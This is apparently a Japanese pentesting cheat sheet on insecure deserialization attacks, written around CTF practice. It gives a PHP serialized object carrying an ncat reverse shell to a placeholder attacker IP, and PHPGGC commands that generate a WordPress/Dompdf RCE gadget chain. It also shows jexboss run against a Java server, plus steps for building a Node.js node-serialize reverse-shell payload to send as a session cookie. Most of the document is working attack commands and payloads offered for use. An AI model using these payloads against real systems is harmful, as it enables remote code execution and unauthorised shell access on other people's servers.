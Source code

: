 # デシリアライズ

PHP でオブジェクトをシリアライズする例  
php foo.php で実行

```php
<?php
# 仮にMaliciousUserDataクラスがwakeupマジック関数で$commandを実行する実装になっている場合、その動作を制御できる
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

## 自動化

### PHPGGC

https://github.com/ambionics/phpggc

```shell
# インストール
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# 一覧
./phpggc -l
./phpggc -l WordPress

# 詳細情報
./phpggc -i WordPress/Dompdf/RCE1

# ペイロードを取得
./phpggc WordPress/Dompdf/RCE1 system whoami
O:19:"Dompdf\Adapter\CPDF":1:{s:15:"*_image_cache";O:33:"Requests_Utility_FilteredIterator":4:{i:0;i:0;i:1;a:1:{i:0;s:6:"whoami";}i:2;a:1:{s:11:"*callback";s:6:"system";}i:3;N;}}

# ペイロードを送信する方法はフレームワークによって様々。
# Cookieを変更したり、APIキーと合わせてエンコードしたり。
```

### Ysoserial

Java 用

https://github.com/frohoff/ysoserial


### jexboss

Java（主にJBoss用？）

環境依存がなく、使いやすかった。TonyTheTiger CTF 参照。

https://github.com/joaomatosf/jexboss/blob/master/README.md

```shell
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss 
pip install -r requires.txt

# no-yes-IP-Port
python jexboss.py -host http://10.10.137.88:8080
```

## Node.js

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

nodejsshell.py を使ってリバースシェルのシェルコードを生成

```shell
$ python2 ./nodejsshell.py 10.2.22.182 6666
[+] LHOST = 10.2.22.182
[+] LPORT = 6666
[+] Encoding
eval(String.fromCharCode(10,118,97................
```

シリアル化されたペイロードを生成し、 関数本体の後に IIFE 括弧を追加

- 先頭に `{"rce":"_$$ND_FUNC$$_function (){ ` を追加
- 最後に `} () "}` を追加

```shell

```text
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(1..........
```

典型的には、これをBase64エンコードしてセッションCookie等として送信する。
